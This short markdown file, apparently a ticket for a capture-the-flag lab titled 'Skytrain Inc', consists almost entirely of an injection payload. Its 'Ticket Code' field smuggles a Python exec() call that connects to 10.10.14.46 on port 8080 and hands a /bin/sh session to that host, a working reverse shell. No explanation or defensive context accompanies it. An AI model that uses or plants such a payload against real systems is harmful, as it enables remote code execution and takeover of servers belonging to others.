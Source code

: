 # Skytrain Inc
## Ticket to whatever you like
__Ticket Code:__
**4+100 and exec('import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",8080));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())')